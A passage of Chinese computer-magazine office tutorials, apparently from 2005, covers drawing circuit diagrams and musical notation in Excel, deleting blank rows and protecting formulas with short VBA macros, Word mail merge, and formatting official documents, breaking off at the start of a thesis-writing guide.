执行“工具→宏→宏…”菜单命令，在“宏名”框中，输入宏的名称“线圈”。单击“编辑”按钮。在宏编辑窗口中输入下列宏代码：

```
vba
Sub 线圈()
ActiveSheet.Shapes("线圈").Select
Selection.Copy
ActiveSheet.Select
ActiveSheet.Paste
End Sub
```

这段代码的目的是把“线圈”这个元件复制到选定单元格。你画了几种元件图形，就把这段代码复制几份吧。把各组代码中的“线圈”逐一改成已画好各种元件图形的名称（见图3），注意代码中有两个“线圈”，改的时候这两个要一起改。最后再编辑一个空宏以备下面锁定元件时使用，代码只有两行：

```
vba
Sub 空()
End Sub
```

#### 第四步：创建工具栏
执行“工具→自定义”菜单命令，在“工具栏”选项卡中，单击“新建”按钮，新建一个“电路图”工具栏，切换到“命令”选项卡，从“类别”列表中选择“宏”，把右侧“命令”列表中的“自定义按钮”拖动到新建的“电路图”工具栏中，右击这个新增的按钮，在弹出菜单的“命名”中输入元件名：线圈，再选择“编辑按钮图像”，画一个线圈的按钮图。重复拖动“自定义按钮”到工具栏逐一添加与各种元件相应的按钮。建议把“绘图”类别中的旋转、翻转等常用的命令也添加进来以便使用。

退出自定义状态，单击“电路图”工具栏中的“线圈”按钮会弹出“指定宏”窗口，在窗口的宏列表中双击“线圈”，指定按钮所要运行的宏为“线圈”。以后再单击“线圈”按钮就会在选定的单元格中插入一个线圈元件。重复这一步为各个按钮指定相应的宏。

小提示：编辑按钮图像时用鼠标一点点画可能比较辛苦，也可以在画图程序中按16×16像素格式画好再复制过去，在自定义状态下右击按钮选择“粘贴按钮图像”即可。另外，电路文件移动后工具栏还是可以正常使用的，只是要先打开Excel删除原有电路工具栏，再打开移动后的含工具栏文件就可以使用了。至于复制到其他电脑中，随便放在哪里都是可以用的，只是再次移动后就得按照上面的步骤操作了。

### 可以开工了
#### 第一步：新建绘制板
打开“电路图.xls”，按住Ctrl键用鼠标拖动“绘制板”工作表标签复制出一张新工作表“绘制板(2)”，电路图的绘制就是在这张复制的工作表中进行。给这张工作表换个名字，拖动打印区边框适当调整打印区域大小。

#### 第二步：绘制电路图
选中工作表中的单元格，单击“电路图”工具栏上的元件按钮即可在选中单元格的边上插入元件，重复这一步骤插入各种元件。元件间的连线则使用“边框”工具栏中的“绘图边框”工具直接绘制，多余的连线采用“擦除边框”工具擦除，完成后效果如图5所示。对于实在不能使用边框绘制的连线就只好用直线或直线连接符进行绘制了，不过那种连线应该不是很多吧。

#### 第三步：标注解释
标注直接输入相应单元格中就行了，如果需要制作元件列表等，还可以通过公式方便地进行引用自动生成、管理，这一部分就给大家自己设计吧^-^。对于一些图形上的标注可使用文字框进行标注。至于整张图纸的边框设置也很简单，按我们平常设置表格边框的方法即可。最终完成后的效果如图6所示。

#### 第四步：修改
上面说过插入的元件无法直接选中，所以要修改时必须按住Alt键单击选中元件，按住Ctrl键则可多选，不过拖动时一定要记得放开Ctrl键否则可就变成复制了。当然也可以使用绘图工具栏的“选择对象”工具进行选中，不过那样比较容易出现误操作，而且选中“选择对象”工具时，画边框和标注无法使用。此外，只要在相应位置插入删除行、列或单元格即可轻松实现连线的延长或缩短，这在修改时是相当实用的。

### 看看绘制的图形
选中工作表中画电路图的单元格，按Shift键单击菜单栏的“编辑→复制图片”，在弹出窗口中选择“如打印效果”选项，确定后你就可以随意粘贴到其他程序中使用了。因为是通过单元格选中，所以可以只复制一部分电路图，把这图片粘贴到Word中还可以进行分解呢。

本文中笔者绘制的是机电控制的电路图，实际上用来绘制电子电路图也没有问题，你只要能先绘制出相应的电子元件图，其他操作并没什么不同。

小提示
★想改变打印图形的比例可从“文件→页面设置→页面”中可直接输入所需的缩放比例。
★如果你画了一张特大号的电路图也不用担心无法打印，Excel会自动进行分页打印，只是在打印后要用胶水粘接。

## 触类旁通

对于像电子电路图、物理实物接线图、组织结构图、化学实验图、生态系统图等这些常见图形也完全可以套用这种方法来绘制。只要先绘制出相应元件图，其他操作并没太大不同。如化学实验图，有画过的都知道这中间最麻烦的就是玻璃导管的绘制了，而这方法就方便多了，只要注意以下几点即可：

- 1. 绘制元件图时，对于玻璃实验器具不能再在下面放白色矩形，它必需是透明的。
- 2. 网格不必特别调整，在画图时我们需要通过改变单元格行高、列宽和行数来快速调整导管的插入长度和各元件、导管等的相对位置（见图7）。
- 3. 用表格边框绘制玻璃导管时，应先从“边框”工具栏中的“线条样式”下拉列表中选择“双线”，再进行绘制。
- 4. 自定义工具栏时必需把格式中的斜下框线、斜上框线工具拖动到边框上（见图8），这可用于绘制倾斜的导管。此外，还得把绘图中的自由旋转工具也拖动到工具栏上，以便旋转试管或其他设备。
- 5. 倾斜导管的画法：选中单元格，单击斜下框线或斜上框线工具画出斜管再调整单元格大小以得到适当长度和倾斜度的导管。或者也可选中多个单元格，单击工具栏上的“合并及居中”工具，再单击斜下框线或斜上框线工具以得到跨越多个单元格的斜管。





OK，就介绍这么多吧，在此我们只是提供一个解决问题的方向，至于要如何把它应用到更多种类的图形绘制上，大家不妨自己去试试看，相信还会有更多意外收获。

## 关于绘制的几个小诀窍

- 1. 在此基于省时省力和便于修改方面考虑，在编辑的宏中只采用了复制方法，这导致电路图工具栏的按钮只能在电路图.xls文件中的“绘制板”工作表及其复制表中使用，而且工作表左侧的元件图也挺碍眼。当然如果你有那个耐性直接把绘制各个元件的过程逐一以相对引用方式录制成宏的话，这些问题就可迎刃而解了，不过那样做以后修改会很不方便。
- 2. 如觉得定制工具栏麻烦，也可以直接把宏指定到相应的元件图，通过单击元件图就可以在选定单元格中插入该元件，甚至单击已插入的元件也同样可以插入元件。不过要在选中单元格和元件间移动比较麻烦就是了，而且较容易出现误操作。
- 3. 左侧的元件图如看不顺眼可用一个足够大的矩形或图片遮住。

本文相关代码下载地址为：http://www.newhua.com/cfan/200501/电路实例.rar
（陈桂鑫）

## 对付多余表格空行就这么容易

小雪在进行数据统计和分析的过程中，由于记录添加、删除以及数据表的合并等原因，经常会在表格中出现一些多余的空行。这些空行的存在既不美观，同时也影响了数据分析的结果。如果一行一行删除，费时费力，经过一段时间的摸索，总结出了以下四种方法，拿来与大家分享。

### 第一招 定位删除法

利用Excel中提供的“定位”功能，一次性定位表格中的所有空行，然后将其“一网打尽”。
单击“编辑”菜单中的“定位”命令，在弹出的“定位”对话框中单击“定位条件”按钮，选择“定位条件”对话框中的“空值”单选钮，如图1所示，单击“确定”按钮。这样就可以将表格中所有的空行全部选中了。然后右击选中区域，选择“删除”命令中的“整行”就可以了。



小提示
使用该方法删除时，要确保其他非空行中的所有单元格内均填有数值，否则会出现误删除记录的现象。

### 第二招 筛选删除法

利用Excel中提供的筛选功能将表格所有空行筛选出来，然后将其删除。
由于Excel在筛选时只能识别连续的行，遇到空行时则不会继续向下进行筛选，所以在进行筛选操作之前，我们可以在表格中的任意位置插入一列，在该列中填充一个简单的序列让表格连续起来。然后依次单击“数据”菜单中的“筛选”命令，选择“自动筛选”命令，任选一个字段（如“性别”），选择筛选条件为“空白”，如图2所示，这样就可以将空行筛选出来了，接下来选中这些空行将其删除就可以了，最后再将非空行全部显示出来。



小提示
如果某记录的被筛选字段（如性别）所对应的单元格没有填写数据也会被筛选出来，此时可再对其他字段进行筛选，直到筛选出来的记录全部为空行为止。

### 第三招 排序删除法

利用“升序”或“降序”操作，将表格中所有的空行排列到一起，然后将其删除。
与筛选操作类似，Excel中的排序操作也只能在连续的非空行中进行，所以也必须在表格中新添加一个填有简单序列的列。然后任选一个字段，对该字段进行升序或降序排列，此时所有的空行将会排序到表格的最后，然后将其删除就可以了。
小提示
由于使用了排序操作，使得表格中原有记录的顺序被打乱，此时只需对新增的“空列”字段（如图2中的A列）进行升序排序就可以了。

### 第四招 VBA代码删除法

借助功能强大的Office VBA，我们可以无所不能。首先利用“控件工具箱”在表格中绘制一个按钮，接着双击该按钮，在其Click事件中写上下面的代码就可以了。

```vba
Private Sub CommandButton1_Click()
Dim b, c As Integer
Dim a As Range
For b = 1 To Range("b65536").End(xlUp).Row
k = 0: Set a = Cells(b, 1)
'测试该行的连续4个列的值是否为空（用户可按要求指定该数字的大小或所有列cells(xlright).columns)
For c = 1 To 4
If Cells(b, c) = "" Then k = k + 1
Next c
'如果该行连续4个单元格为空，则删除该行
If k = 4 Then
a.EntireRow.delete shift:=xlUp
End If
Next b
End Sub
```

小提示
如果将该代码创建为“宏”并指给一个自定义的工具栏按钮（见图3），这样就可以一劳永逸了。



与本文相关代码下载地址为：http://www.newhua.com/cfan/200501/示例.rar
（江苏 仲勇）

# 高效办公 我用“邮件合并”

年底的时候办公室的秘书阿雯总是忙得不亦乐乎，因为要给几百个客户写信、寄贺卡。这些信函当然不能“批量”处理了，一定要使用特定称呼和问候语，使得信件就像单独写出来一样。但如果分别给每个人写信，又实在太麻烦了。最近，她看起来很悠闲，悄悄一打听，还真是有提高效率的“秘密武器”。

## 三分钟 客户贺卡全搞定

### 芝麻开门

通常，Office的邮件合并功能涉及到两个文档:第一个文档是邮件的内容，是所有邮件相同的部分，称为“主文档”。第二个文档包含收件人的称呼、地址等每个邮件不同的信息，称为“收件人列表”。第二个文档中的内容也可以从其他程序得到，如Outlook的联系人列表等。

在执行邮件合并操作之前，首先要创建这两个文档，并把它们关联起来，如指定在主文档的什么位置出现收件人列表中的“称呼”。完成后就可以“合并”这两个文档，为每个收件人创建邮件。以后，如果再给这些收件人发信时，只需要修改已有的信件，执行邮件合并功能就可以了，非常方便、快捷。

通常，阿雯将客户的相关资料，如客户的姓名、联系方式等都保存在一个Excel文件中，现在要做的就是建立信函的内容文档，也就是主文档，然后把主文档同这个保存客户资料的Excel文件关联起来就OK了，马上开始，三分钟就可以搞定。

- 1. 第一步:在Word 2003中新建一个文档，设计制作贺信的具体内容，在贺信最前面留出客户姓名的位置，可以输入不同的客户姓名，其他的都相同。当然，也可以根据实际情况，设计几个不同版本的贺信，这就看各自的需求了。



- 2. 第二步:执行“工具→信函与邮件→邮件合并”菜单命令，打开“邮件合并”任务窗格，出现邮件合并的向导，我们按照步骤操作即可。首先根据要创建的文档类型选择“信函”单选按钮，单击“下一步:正在启动文档”链接，如图1所示，选择“使用现有列表”单选项。单击“下一步:选取收件人”链接。然后单击“浏览”链接，打开“选取数据源”对话框，选择数据源所在的Excel文件。单击“下一步:撰写信函”链接。选择“其他项目”链接，打开“插入合并域”对话框，在对话框中选择“姓名”项，单击“插入”按钮，将其插入到贺信的指定位置，如图2所示。到这里，客户贺卡的制作基本完成。



- 3. 第三步:执行“工具→信函与邮件→显示邮件合并工具栏”菜单命令，在工具栏中显示邮件合并的工具栏，如图3所示，单击“查看合并数据”按钮，可以预览一下合并后的效果。还可以通过“首记录”、“上一记录”、“下一记录”等控制按钮在记录之间跳转。也可以在“邮件合并”任务窗格中通过“排除此收件人”链接对某一个记录进行删除。



- 4. 第四步:最后，单击“下一步:完成合并”链接，可以选择将设计完毕的信函合并到一个新文档，如图4所示。方便打印出来邮寄。



## Just Do It

在利用“邮件合并”功能“批量”处理信函的同时你想到了什么呢？对，那就是还可以做更多的事情，如主文档设计工资报表的具体格式，次文档保存工资的具体数据，两个文档相互关联后，一套工资报表就迅速生成了。呵呵，像学生成绩通知单、财务报表等以若干记录形式保存的数据，都可以用这种方式关联生成相应的文档，还等什么，赶快行动吧！

## 依葫芦画瓢 制作邮寄标签

对于简洁的贺信可以很快就搞定了。当然，省下了时间，还可以在贺信的设计上多花些心思。接下来，用类似的方法制作所有贺信的邮寄标签。

- 1. 第一步:新建一个Word文档，执行“工具→信函与邮件→邮件合并”菜单命令，打开“邮件合并”任务窗格，在文档类型中选择“标签”单选按钮。此处，最关键的就是通过“标签选项”对邮寄标签进行详细设置。很多时侯，我们是根据具体情况，自定义一个标签的尺寸，然后单独保存起来，以后需要用的时候，直接调用就可以了，如图5所示。



- 2. 第二步:按照向导提示按照步骤来操作，单击“其他项目”链接，将指定的“域”插入标签中，然后设置字体、字号等，并根据邮寄习惯调整各个域的位置，如图6所示。如果对标签进行调整后，可以通过单击“更新所有标签”按钮来更新所有的标签。


## Just Do It

随着网络用户的日益增多，很多人用E-mail的方式发送邀请函、节日问候等，相信每个人都有过同时给多个人发邮件的经历。在使用邮件合并功能的时候大家是否注意到，在“文档类型”中有一个“电子邮件”选项，选定这个选项后按照向导就可以给多人同时发送电子邮件，大家不妨试一试。

## 老鸟支新招——制作超大文档

阿雯为大家介绍的“邮件合并”功能是比较经典的应用，而另一位同事晓风要制作一个近十万字的ISO标准文件，这些文件分别要由不同部门的同事分工完成，让晓风颇为头疼的是如何统一格式，让最终合成的文件符合要求。苦思冥想之后，终于想到了一个办法，就是运用“邮件合并”的功能，经过多次尝试，终于解决了问题。

- 1. 第一步:用Word制作好“母板”，也就是主文档，如图7所示。单击“查看合并数据”按钮，可以查看合并后的效果，通过工具条按钮查看文档全部内容，如图8所示。



- 2. 第二步:制作公用“子板”，也就是数据源。对应于“母板”，子板仅保留“标题”和“内容”两个变动项，用Word制作。
- 3. 第三步:将公用“母板”和公用“子板”分别作为共用“母板”和共用“子板”的文档名，保存在共享文件夹中，让各部门内的同事拷贝至其各自的电脑中，再根据自己的需要予以重新命名，如“财务科母板”、“财务科子板”、“企业文化母板”、“企业文化子板”等。为方便起见，将“母板”和“子板”放在同一个文件夹中。
- 4. 第四步:将“企业文化子板”作为数据源导入“企业文化母板”。执行“邮件合并”菜单命令，在打开的“文件类型”对话框中直接选取“Word文档”，找到“企业文化子板”所在的文件夹，打开“企业文化子板”。将鼠标放在“企业文化母板”中的“标题”处，插入“标题”域，同理，在“内容”处插入“内容”选项。

实质上“母板”起到规范格式的作用，而“子板”则起到输入实质内容作用。因为“子板”的表格可以增加到Word允许的几千行，每一行都是一项独立的文件内容。这时所要做的工作，就仅仅在“子板”中输入内容，而不用管格式是什么样的。

- 5. 第五步:在编辑过程中，可随时通过“母板”中的“查看合并数据”按钮和记录单的上下滚动来查阅“子板”中的编辑内容，非常直观和方便。

等所需的各部门文件都准备好了，晓风所要完成的无非就是合成了，因为“母板”只有细微的变动，而“子板”的表格行次可以随意增删修改。用不了半天的功夫，这项工作即可顺利完成。

### 小提示

修改工作最好放在“子板”中。另外，因为合并后的文档是分节的，页码也是分节而设的，若双面打印，会发现打出来的是乱七八糟，其实只要将合并后的文档全选，点击“插入”选取“页码”选项，在弹出的对话框中点击“格式”，在“页码格式”中选中“续前节”，这时整个文档的页码就连起来了。

（与非 晓风吹叶）

# 在Excel中的乐谱

现在我们就以混声合唱曲《本事》为例，详细介绍如何用 Excel 2003 制作简谱。

## 乐谱格式化

在谱曲前需要新建一个 Excel 工作簿，以 Sheet1 作为制谱工作表，并对其格式化，使之符合制谱要求。按 Ctrl + A 组合键，全选工作表，接着进行如下操作：

- 1. 将行高调为 12，列宽调为 1.38。
- 2. 右击选中的区域，在弹出菜单中点击“设置单元格格式”，接着在“数字”选项卡中选择“常规”。
- 3. 在“对齐”选项卡中选择水平、垂直均为居中。
- 4. 在“字体”选项卡中选择字体为黑体，字号默认为 12。
设置好后，点“确定”即完成乐谱格式化。

## 谱写乐章

该曲共 23 个小节，分为四行排列，前三行每行 6 小节，最后一行 5 小节。先输入第一行第一声部的 6 小节。

- 1. 基本音符输入：用数字键盘输入第一行第一声部的基本音符，用 0 ~ 7 八个阿拉伯数字输入，一个单元格只填入一个音符或休止符。
- 2. 添加高音点、附点：用“视图→工具栏→符号栏”中的“·”号输入，一个单元格只填一个。
- 3. 减时线、小节线：用“视图→工具栏→格式”中的“边框”工具输入，一般只用下框线和左右框线(见图 1)。
- 4. 增时线：用键盘上的“-”号输入，一个单元格只填一个(见图 2)。




- 5. 升(降)号制作：用“视图→工具栏→绘图→自选图形→线条”中的“任意多边形”工具绘制第一小节中的升号，并使用“绘图→线型”工具对线条粗细进行调整，最后对四条线进行组合，制作好后见图 3 所示。
- 6. 制作第一至三小节的连线：用“视图→工具栏→绘图→自选图形→基本形状”中的“弧形”工具制作(见图 4)。
- 7. 力度记号制作：本曲有两种力度记号：
  (1) 记号标记的渐弱(强)记号：如第五至第六小节的渐弱记号，使用“视图→工具栏→绘图→自选图形→线条”中的“任意多边形”工具绘制，拖动四角小圆圈，能调整渐弱记号的长度、开口大小及将其进行任意角度旋转(见图 5)。按住渐弱记号四个角上的任意一个小圆圈水平向相反方向拖动，能使其变为渐强记号。







  (2) 字母标记的中弱和弱记号：如第一小节的中弱记号和第五小节的弱记号，利用“文本框”工具制作，输入相应字母，选择适当字体并调为倾斜，选中文本框后右击，并选择“设置文本框格式”，在“颜色与线条”标记条中设置为无填充颜色和无线条颜色，使文本框及其边线完全透明。
按照上面方法，完成第一行第二至第四声部及其他所有声部的音符及相关符号的输入。

### 小提示

在多行乐谱输入过程中，为使所有行最后一个小节线上下对齐，往往需要插入或删除列，或合并单元格，从谱面美观原则出发，调整音符间距。

- 8. 声部名称和方括弧(用于连接多声部乐谱)制作：声部名称 S(女高)、A(女中)、T(男高)、B(男低)使用“文本框”工具制作，具体方法同字母标记的力度记号，不再赘述。连谱用的方括弧由一粗一细两条竖线及上下两端的两个弧形组成，其中后一条竖线用“边框”工具输入(与小节线的输入方法相似)，前一条竖线用“视图→工具栏→格式→边框”中的“绘图边框”工具并选择最粗的线条样式画出，两个小弧线用“弧形”工具制作，然后拖至两条竖线的上下两端，结果见图 6 所示。
- 9. 延音记号制作：用“视图→工具栏→绘图→自选图形→线条”中的“曲线”工具和“绘图”中的“椭圆”工具绘制，并用黑色填充后组合在一起(见图 7)。
- 10. 终止号制作：曲尾的终止号制作方法与连谱用的方括弧的制作相似，第一条细纵线用“边框”工具添加，第二条粗纵线用“绘图边框”工具画出。前面带两个圆点(形似冒号)的反复记号(本曲没有)是在终止号的基础上添加两个圆点组成，圆点制作方法：点选“椭圆”工具并按住 Shift 键画出一个正圆，填充颜色为黑色，调整到合适大小。复制一个，上下排列好后进行组合，拖到终止线前面即可。
本曲正文完成后的效果(前两行)见图 8。






### 小提示

#### 如何提高输入速度

★使用复制、粘贴命令：在 Excel 中输入的所有内容都能进行复制、粘贴，包括音符(休止符)、减时线、增时线、小节线、升降号、还原号、连线、反复号、方括弧和其他自制音乐符号等。选择部分单元格，能将这些单元格的所有格式及上面已有的所有符号一起复制。

★批量添加减时线和小节线：乐谱制作中输入量最多的一般是减时线和小节线(本曲减时线较少)。为提高输入速度，先完成所有不带减时线音符和休止符的输入，再按住 Shift 键，分别点选需要添加减时线的音符和休止符所在的单元格，选择“下框线”即可添加上所有的减时线。小节线的批量添加方法与此相似。

## 乐谱文字的输入

乐谱中的文字包括歌词、曲名、调号、拍号、表情术语及词曲作者等。

### 1. 歌词输入

在需要添加歌词的音符对应的单元格中输入歌词。输入多段歌词时，如果预留行不够用时，可以增加行。歌词字体和大小可以进行设置。连接上下两段歌词的大括号，使用“视图→工具栏→绘图→自选图形→基本形状”中的“左大括号”和“右大括号”制作。多段歌词共用的歌词部分，先纵向合并单元格，再输入歌词。本曲只有一行歌词，所以制作更为简单，歌词完成后的效果(后两行)见图 9。



### 2. 曲名输入

将第一行从第一个单元格到最后一个单元格进行“合并及居中”，输入曲名“本事”，调整字体和大小到合适程度。也可以使用“视图→工具栏→艺术字”工具制作一个艺术化的曲名。

### 3. 调号、拍号、表情术语及词曲作者的输入

- (1) 调号和拍号：调号中的“1”、“=”和“C”均使用先合并单元格再填入内容的方法制作。拍号直接在上下两个单元格中填入数字、在中间加框线完成(见图 10)。
- (2) 表情术语及词曲作者：可以合并居中部分单元格后直接输入文字；为了调整的灵活性，也可以使用“文本框”工具输入。本曲的表情术语是速度标记，可以采用“绘图”工具中的椭圆、直线和文本框制作，表情术语效果见图 11。




## 版面调整、润色与保护

为了整体美观，可对乐谱微调行距、文字大小、位置等，并在“文件→页面设置”中对纸张做出设置。另外，根据个人喜好给乐谱加上背景色；通过“视图→工具栏→格式”中的“字体颜色”对乐谱中音符、休止符及文字等进行颜色调整。

# 旧“查找”新“替换”

## 实例1 超难度替换有办法

一位朋友有一份几万字的Word文档，包含有20000多个英文字符，现在要求将所有英文字符变为“Arial Black、小三号”，颜色为红色。通常情况下，我们会使用Word中的“格式刷”来完成这个任务，但这么多内容需要改，如果此时还用格式刷一个一个地手工更改，估计连所有刷毛都会掉光。那么，来看笔者是怎么实现的。

第一步：打开文档，按Ctrl + F组合键，弹出“查找和替换”对话框。点击“高级”按钮，这时将会弹出隐藏着的高级选项。

第二步：将光标定位在“查找内容”，先点击下方的“不限定格式”按钮，接着点击旁边的“特殊字符”按钮，在展开菜单中，选中“任意字母”。这时，光标所在的位置变成了“^$”（见图）。

第三步：选择“替换”，将光标定位在“替换为”栏。点击下方的“格式”并选择“字体”。这时，弹出了一个字体属性对话框，接着就按前面的要求设定好。最后，点击“全部替换”。看看，是不是达到目的了！

实际上，该项功能除了能实现本文所述之外，还可以帮你实现很多方面的需求，这就要看你的领悟和尝试了。

## 实例2 统计也让替换代劳

在Excel中，有时需要统计表中相同数据出现的次数，如果你不熟悉Excel函数的运用，可以用“查找与替换”实现数据统计功能。如统计人员花名册中性别为“男”的人数，可选中性别所在列，点击“编辑”菜单下的“替换”项。在“查找内容”中填写“男”，“替换为”中填上“A”，选择“全部替换”。此时，Excel会弹出菜单提示完成了N处被替换，这个N即为统计出的男性人数，再选择“编辑”菜单下“撤消”，使原单元格数据恢复。



> **小提示**

- 增减时线、小节线只能使用“视图→工具栏→格式→边框”中的“绘图边框”工具，选择合适颜色进行手工绘制。
- 自制的音乐符号，使用“绘图”工具的“线条颜色”按钮改变颜色。
- Excel绘图工具可以绘制几乎所有音乐符号(如房号、重音、倚音、波音、琶音、颤音、回音、自由反复等)。将绘制好的音乐符号按类别分别放置在同一个Excel工作簿的不同工作表中，作为模板保存起来(保存位置:C:\Documents and Settings\kevin\Application Data\Microsoft\Templates)，以方便在今后乐谱制作中复制使用。

经过以上制作及加工，本曲乐谱成品制作终于完成，黑白稿打印预览效果见图12。怎么样？可以与专业乐谱相媲美吧？你一定不会想到吧，作为表格软件的Excel，竟然能有如此强大的乐谱制作功能！也许有的朋友对这样的效果还不太满意，你可以将它虚拟打印到文件后，用CorelDraw等绘图软件做进一步的加工，直到满意为止。

## Word中批量转换文档格式

实际工作中，经常遇到需要转换多篇文档的文件格式，如将HTML文件、TXT文件等转换为Word文件，或是将Word文件转为TXT文件等。

将需要转换的文件放入同一个文件夹中，然后打开Word 2003，选择执行“文件→新建”菜单命令，点选“本机上的模板”链接，在“其他文档”选项卡中选择“转换向导”图标，单击“确定”按钮，出现“转换向导”窗口，按照向导提示就可以进行文件转换了。选择“下一步”按钮，可以看到将其他文件格式转换为Word文档格式，也可以将Word文档转为其他文件格式选项，你可以根据情况选择。如我们选择“将其他文件格式转换为Word文档格式”，单击“下一步”，通过“源文件夹”的“浏览”按钮，选定存放源文件的文件夹，再通过“目标文件夹”的“浏览”按钮，确定转换后的文件存放目的地。单击“下一步”，出现窗口，在“文件类型”中选“*.*”，单击“全选”按钮选中源文件夹中所有要转换的文件，再单击“下一步”，单击“完成”按钮，出现“文件转换过程”对话框，对话框中会显示转换进度。文件转换完成后，转换向导结束，此时会询问是否还要转换其他文件，选择“否”结束即可完成文件转换过程。

## 为Excel加装快捷的公式保护器

在Excel中出于保密需要，通常不希望使用者查看和修改公式。你可以利用Excel锁定、隐藏和保护工作表的功能，把公式隐藏和锁定起来。但如果按照常规方法设置会比较麻烦，而利用Excel的宏，在工具栏上添加一个“保护公式”的按钮，需要隐藏和锁定公式时，只要轻轻一按即可完成保护。

### 制作宏

为了使此宏对所有工作簿有效，需要将其保存到“个人宏工作簿”中。

第一步：执行“工具→宏→录制新宏”命令，打开“录制新宏”对话框，见图1所示。



第二步：单击右侧“保存在”下拉按钮，在随后出现的下拉列表中，选择“个人宏工作簿”选项，确定进入录制状态。

第三步：单击“停止录制”工具栏上的“停止录制”按钮，退出录制状态。

注意：前面的操作是为了在Excel中添加“个人宏工作簿”。

第四步：按下Alt + F11组合键进入VBA编辑状态(见图2)，在左侧依次展开“VBAProject (PERSONAL.XLS)”、“模块”选项，双击下面的“模块1”。



第五步：用下面的代码替换右侧编辑区域中的代码：

```
Sub 保护公式()
ActiveSheet.Unprotect ("123456") '解除对工作表的保护
Cells.Select '选中整个表格
Selection.Locked = False '解除锁定
Selection.SpecialCells(xlCellTypeFormulas, 23).Select '选中包含公式的单元格
Selection.Locked = True '添加锁定
Selection.FormulaHidden = True '添加隐藏
ActiveSheet.Protect ("123456") '保护工作表，并设置密码
ActiveSheet.EnableSelection = xlUnlockedCells '让锁定单元格不能选中
'以下代码用于保存文件
If Left(ActiveWorkbook.Name, 4) = "Book" Then
y = InputBox("请输入保存文件名称:")
z = InputBox("请输入文件保存路径:")
ChDir z
ActiveWorkbook.SaveAs Filename:=z & "" & y & ".xls"
Else
ActiveWorkbook.SaveAs Filename:=ActiveWorkbook.Path & "" & ActiveWorkbook.Name
End If
End Sub
```

输入完成后，关闭VBA编辑窗口返回。

> **小提示**

★上述代码中，“保护公式”为宏名称，在实际输入时可以更换为其他名称。
★代码中，英文单引号及其后面字符是对代码的解释，在实际输入时可以不输入。
★代码中的密码(“123456”)请根据实际需要修改(需要保持前后的一致)。

### 添加按钮

在工具栏上添加一个宏按钮，方便随时调用。



（新疆 薛凯文）

(杨冬松)

(银河系 白桦)

# 正规公文制作有一套

小张在单位办公室工作，材料写得好，电脑玩得也不错。又到每年写年终总结的时候，领导给他派了活儿：马上把上报分公司的《2004年度工作总结》写出来，由于要用正规行文格式上报，因此，光写出来还不够，还要制作成公文。接下来，就让我们随他一起去完成这份04年度工作报告吧！

## 设置版面格式

由于公文格式的特殊性，对纸型、页边距、文档网格以及标题、正文字体、字号等均有明确规定，因此设置也带有一定特殊性。

1. 用Word打开《2004年度工作总结》文稿，首先选中文字，点击工具栏中的“字体”、“字号”下拉框，分别对标题和正文进行设置，通常标题设置为黑体、小二号，正文设置为仿宋体、三号(见图1)。
2. 依次点击“文件→页面设置”，进入“页面设置”对话框(见图3)，在“页边距”选项卡里将上、下、左、右值均设置为2.5厘米，点击“纸型”选项卡，将纸型设置为16开、方向设置为纵向。


为了方便，可以把最常使用的字体格式设为默认，方法是在主菜单上“格式→字体”设好字体再按“默认”按钮(见图2)。



注意:通常国际标准格式为A4纸，因在多数单位里仍在使用16开纸型，故此文以16开纸型为例设置页面。

3. 进入“文档网格”选项卡，将每页行数设置为23行，点击“确定”按钮，完成第一步字体、字号以及页面的设置。

## 制作发文红线

公文通常分为上行文、下行文和平行文，简单说上行文即请示、报告等文种，下行文即通知、指示等文种，平行文即公函等文种，当然，上、下、平行文格式也有所不同。这里以上行文为例进行介绍，在上行文公文格式中总少不了发文红线。

1. 点击主菜单上“格式→边框和底纹→显示工具栏”，打开“表格和边框”工具栏(见图4)。
2. 分别对线型、粗细、颜色、外部框线进行设置，通常将线型设为“横线”、粗细设为“1.5磅”、颜色为“红色”、外部框线设为“下框线”，这样一条合格的发文红线就出呈现出来了(见图5)。





> > **Just Do It**
> 因为经常要输入六角括号，所以建议为其设置快捷键，以后只要按下相应快捷键即可快速输入六角括号。点击“插入→符号”，进入“符号”对话框，找到并选中六角括号的左半边“〔”，点击“快捷键”按钮，然后为其指定快捷键设置，同样为六角括号的右半边“〕”设置快捷键。

## 制作公文落款

一般来说，单位里发公文通常都会用正规的行文格式，而在正规行文格式中总少不了单位落款一项。利用Word里的“双行合一”命令制作公文落款可谓方便快捷，在工作中可以有效提高处理速度，大大节省时间。

1. 点击“格式→中文版式→双行合一”，出现“双行合一”对话框(见图6)。
2. 输入单位名称(如：中国××××公司××分公司××路营业厅)，先输入需要合为一行的文字(中国××××公司)，合理调整字符间距，查看预览效果，满意后点击“确定”。
3. 输入剩下的文字(××分公司××路营业厅)，完成后可利用“Ctrl+[”和“Ctrl+]”快捷键合理调整两部分文字的字号大小，就会出现满意的公文落款(见图7)。



输入剩下的文字(××分公司××路营业厅)，完成后可利用“Ctrl+[”和“Ctrl+]”快捷键合理调整两部分文字的字号大小，就会出现满意的公文落款(见图7)。



> > **Just Do It**
> 在文档编辑中，常常会用到一些符号，而键盘上并没有这些符号的按键，如公文落款日期中用的标准零(〇)等。通过点击“视图→工具栏→符号栏”调出“符号栏”，可以加快落款中日期的处理速度。

## 制作落款粗、细横线

作为正规公文，其落款通常包括发文单位、成文日期、主题词、抄送单位、印制份数、承办单位、承办人和发文日期等几部分组成，而主题词、抄送单位、印制份数、承办单位、承办人和发文日期又分别由三条粗细不等的横线分割开来(见图8)。如果用下划线或画笔来制作，效果会不佳，最主要的是不符合标准。其实完全可以利用Word中的特殊功能来实现，具体粗横线的制作方法是：

在英文输入状态下，按住Shift键不放，同时按“-”号(减号要连续输入3下)，而后按回车键，这样，一条粗横线就自动生成了。
而细横线则可通过先把输入法状态由英文切换成中文，连续输入三次“-”号(减号)，而后按回车键，一条细横线就会自动生成。



## 给公文添加页码

经过上面数步之后，一份正规公文基本出炉了，在完成前别忘了给公文加上页码，点击“插入→页码”，打开“页码”对话框，选择页码添加的位置为“页面底端(页脚)”，对齐方式选“居中”，并去除“首页显示页码”复选框(公文格式规定首页不显示页码)的勾选，点击“确定”即可(见图9)。到此为止，小张负责的这份上报材料就完成了(见图10)，领导审阅后非常满意。





（安徽 ilo）

（河南 冰蛋）

# 毕业论文写作全攻略

简单地说，毕业论文就是大学生毕业前提交的一份具有一定学术价值的文章，是对大学所学知识以及自身工作、社交、学习能力的一次总结和提高，学校重点通过毕业论文来考察大学生掌握知识的程度以及分析问题和解决问题的能力。毕业论文写作过程一般分为以下几个阶段：1.题目选择；2.课题调研；3.文献检索与应用；4.撰写论文；5.论文答辩。

## 毕业论文写作实战

